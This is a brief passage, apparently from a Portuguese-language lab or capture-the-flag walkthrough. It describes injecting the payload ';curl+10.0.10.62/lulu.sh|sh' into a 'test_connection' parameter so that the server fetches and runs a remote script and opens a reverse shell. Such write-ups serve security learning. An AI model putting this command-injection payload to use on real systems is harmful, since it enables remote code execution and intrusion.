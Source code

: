![Descrição da imagem](./images/27.png)

## No parâmetro test_connection iremos inserir a seguinte payload:
- ;curl+10.0.10.62/lulu.sh|sh

## Clicando em Send, conseguimos enviar nosso arquivo malicioso e conseguimos a conexão reversa com o servidor.
![Descrição da imagem](./images/28.png)
![Descrição da imagem](./images/29.png)
